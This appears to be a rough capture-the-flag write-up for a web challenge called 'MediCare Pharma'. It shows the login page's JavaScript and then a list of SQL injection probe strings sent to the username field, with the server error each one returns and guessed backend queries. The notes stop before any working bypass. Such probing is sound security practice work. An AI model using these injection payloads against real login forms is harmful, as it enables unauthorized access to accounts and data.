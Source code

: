 ## web/MediCare Pharma
```
function createAccount() {
  alert("Access Forbidden");
}

function submitForm() {
    var username = document.getElementById("uname").value;
    var password = document.getElementById("pass").value;
    var xhr = new XMLHttpRequest();
  
    xhr.onreadystatechange = function () {
      console.log('ReadyState:', xhr.readyState);
      if (xhr.readyState == XMLHttpRequest.DONE) {
        console.log('Status:', xhr.status);
        if (xhr.status == 200) {
          alert(xhr.responseText);
        } else {
          alert("Error : " + xhr.status);
        }
      }
    };
    
    xhr.open("POST", "login.php", true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    
    var data = "username=" + encodeURIComponent(username) + "&password=" + encodeURIComponent(password);
    
    xhr.send(data);
  }
  
```
### payload --no response --500
```
';';'":"admin&&&***)(":>?'';';';''''
```

```
b';
```
gives 500


```
b';#
```
gives not error

## chekcking payloads
- username=admin'&password=root gives 500
- username=admin' 'radha&password=root 502
- username=CONCAT('foo','bar')&password=root 500
- username=admin-- &password=root no err    SELECT * FROM users WHERE username='admin-- ' and pass='root'
- username=admin/*&password=root SELECT * FROM users WHERE username='admin/*' and pass='root'
- username=1%2b1&password=root  Incorrect Username or Password
